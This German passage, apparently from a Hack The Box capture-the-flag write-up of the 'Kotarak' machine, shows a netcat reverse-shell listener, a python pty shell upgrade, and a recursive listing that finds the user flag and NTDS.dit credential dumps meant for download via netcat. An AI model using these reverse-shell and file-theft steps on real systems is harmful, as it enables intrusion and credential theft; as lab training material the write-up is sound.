 ![bild7](https://imgur.com/VRoqBHq.jpg)

Wir können sehen, dass diese nun unter **Applications** aufgeführt ist.

Wenn wir nun auf den Namen unserer Datei klicken, haben wir eine **Reverse-Shell**!

```shell
root@kali:~# nc -lnvp 4444
listening on [any] 4444 ...
conect to [10.10.15.158] from (UNKNOWN) [10.10.10.55] 48972
```

Jetzt können wir uns eine interaktive Shell mit z.B. Autocomplete erstellen.

```shell
python -c "import pty; pty.spawn('/bin/bash')"
tomcat@kotarak-dmz:/$ ^Z
[1]+ Stopped nc -lnvp 4444
root@kali:~# stty raw -echo
root@kali:~# nc -lnvp 4444

tomcat@kotarak-dmz:/$ stty rows 53
tomcat@kotarak-dmz:/$ stty columns 211
tocat@kotarak-dmz:/$ export TERM=xterm-256color
```

Im Homeverzeichnis können wir uns mit dem Befehl **ls -R **rekursiv alle Ordner und Dateien anzeigen lassen.

```shell
tomcat@kotarak-dmz:/$ cd home
tomcat@kotarak-dmz:/home$ ls
atanas tomcat

tomcat@kotarak-dmz:/home$ ls -R
.:
atanas tomcat

./atanas:
user.txt

./tomcat:
to_archive

./tomcat/to_archive:
pentest_data

./tomcat/to_archive/pentest_data:
2070721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit 20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin
```

Im Homeverzeichnis von Atanas befindet sich die User Flag!

Im Homeverzeichnis von Tomcat befinden sich zwei sehr interessante Dateien...  
Laden wir uns diese via Netcat herunter.
